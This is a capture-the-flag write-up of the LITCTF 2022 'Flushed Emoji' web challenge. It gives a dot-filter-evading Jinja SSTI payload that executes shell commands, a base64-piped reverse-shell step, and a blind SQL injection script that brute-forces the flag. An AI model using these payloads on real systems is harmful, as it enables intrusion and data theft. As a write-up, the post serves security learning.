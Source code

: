 ```yaml
---
title: "Flushed Emoji challenge Writeup"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "ssti", "sql-injection"]
date: 2022-07-25T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


Lexington Informatics Tournament CTF CTF 2022 was held from the 22nd of July Until the 25th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was solved less than 50 times in the 3 days and it was really nice.

<!--more-->

|             |                                               |
| ----------- | --------------------------------------------- |
| CTF name    | [LITCTF 2022](https://ctftime.org/event/1694) |
| challenge   | Flushed Emoji                                 |
| category    | web                                           |
| about       | SSTI , SQL injection                          |
| description | Flushed emojis are so cool!!                  |
| points      | 250                                           |
| team        | [0xCha0s](https://ctftime.org/team/168238)    |

# Discovery

we are given source code , so we can start from there

![image](/assets/images/CTFs/Flushed-emoji/20220724225849.png)

### main-server

we can start checking the `main-server/main.py` file , let's check the important parts :

- there is a login function which make sure the password doesn't contain a dot

```py
def login():
	if request.method == 'POST':
		username = request.form['username']
	     password = request.form['password']
	    if('.' in password):
		    return render_template_string("lmao no way you have . in your password LOL");
```

- if we have passed the dot check , our data will be sent as a post request to a remote server we don't know its ip address
- if it didn't return True our password will be processed with the `render_template_string()` function which is known to be a factor for SSTI exploitation

```py
    r = requests.post('[Other server IP]', json={"username": alphanumericalOnly(username),"password": alphanumericalOnly(password)});
    print(r.text);
    if(r.text == "True"):
      return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss.");
    return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");

  return render_template("index.html");
```

- As our input doesn't have proper filtration we can try to trigger SSTI .
- However most SSTI payloads contains dots , then after some searching we come across this awesome [research](https://hackmd.io/@Chivato/HyWsJ31dI)
- the research discussing the possibility of evading the dots filters by using the following approach :



```pug
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
# to be
{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
```  

now let's go test the web application :

![image](/assets/images/CTFs/Flushed-emoji/20220724231846.png)

Trying the above payload we have a valid SSTI exploit :

![image](/assets/images/CTFs/Flushed-emoji/20220724232147.png)

- now we can get a reverse shell so we can try our investigation without being concerned about dots filter. however any remote ip will have `.` of course.
- we can get around this by base64 encode our reverse shell payload then :

```bash
<base64_reverse_shell> | base64 -d | bash
```

and we are in

![image](/assets/images/CTFs/Flushed-emoji/20220724232716.png)

- if you look around in the machine you won't find any useful data , and alot of linux basic utilities are not there like `nano,vi,sudo,ssh,ssh-keygen,ss,netstat,ping,wget,curl,ifconfig,ip` and others
- our goal now is to get the IP of the remote server , we can simply search for all IPs in the machine with a simple grep regex command :

```bash
grep -rE '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' / 2>/dev/null
```

![image](/assets/images/CTFs/Flushed-emoji/20220724233151.png)

we find this IP , and as we can't get our ip address we can check the `/etc/hosts`

![image](/assets/images/CTFs/Flushed-emoji/20220724233311.png)

- so most probably the `172.24.0.8` is our next destination
- we can confirm that by trying to communicate with it using `python3` as it was installed on the machine :"

```py
>>> import requests
>>> r= requests.get("http://172.24.0.8:8080")
>>> print(r.text)

```

- if the communication party is not available an exception will be raised however it doesn't traceback an error.(we know port 8080 from upcoming code)

### data-server

now Let's check the `data-server/main.py` code

- here we can see the flag is inserted into the database at the data server and if we check the rest of the code we can't find any condition lead to make the flag be printed so keep `sql injeciton` in our mind

```py
con = sqlite3.connect('data.db', check_same_thread=False)

app = Flask(__name__)
flag = open("flag.txt").read();
cur = con.cursor()
cur.execute('''DROP TABLE IF EXISTS users''')
cur.execute('''CREATE TABLE users (username text, password text)''')
cur.execute(
    '''INSERT INTO users (username,password) VALUES ("flag","''' + flag + '''") '''
)
```

- we have an endpoint called `/runquery` which accepts JSON post data
- it will execute the statement without proper filters on password field
- we can know it will be error based SQLi from the True or False message errors

```py
@app.route('/runquery', methods=['POST'])
def runquery():
  request_data = request.get_json()
  username = request_data["username"];
  password = request_data["password"];
  print(password);
  cur.execute("SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'");
  rows = cur.fetchall()
  if(len(rows) > 0):
    return "True";
  return "False";
app.run(host='127.0.0.1',port=8080,debug=True)
```

- the exploitation environment is very restricted and we doesn't have many choices , we will build our script and run it in the python3 interactive terminal

## Exploitation

- Let's just confirm the server returns True or False :

```py
>>> import requests
>>> url  = "http://172.24.0.8:8080/runquery"
>>> data={'username':'test','password':'test'}
>>> r = requests.post(url,json=data)
>>> print(r.text)
False
```

- we will exploit this SQL statement

```sql
SELECT * FROM users WHERE username='<username>' AND password='<password>'
```

- we can try basic payload to alter the SQL execution :

```sql
junk' OR 1=1--
```

and it returns True indeed :

![image](/assets/images/CTFs/Flushed-emoji/20220724234904.png)

- in This CTF challenge we know the flag format so it is really helpful , we can use `LIKE` statement in our injection

```py
import requests,string
printable = string.ascii_lowercase + string.ascii_uppercase + "0123456789"+ "{}_*-+="
flag = "LITCTF{"
while not flag.endswith('}'):
    for c in printable:
        if "True" in requests.post(url = 'http://172.24.0.8:8080/runquery', json={'username': 'test','password': f'junk\' or password like \'{flag+c}%\'--'}).text:
            flag = flag+c
            print(flag)
            break
```

Running the Exploit we can get our flag :

![image](/assets/images/CTFs/Flushed-emoji/20220724235548.png)

```bash
LITCTF{flush3d_3m0ji_o_0}
```
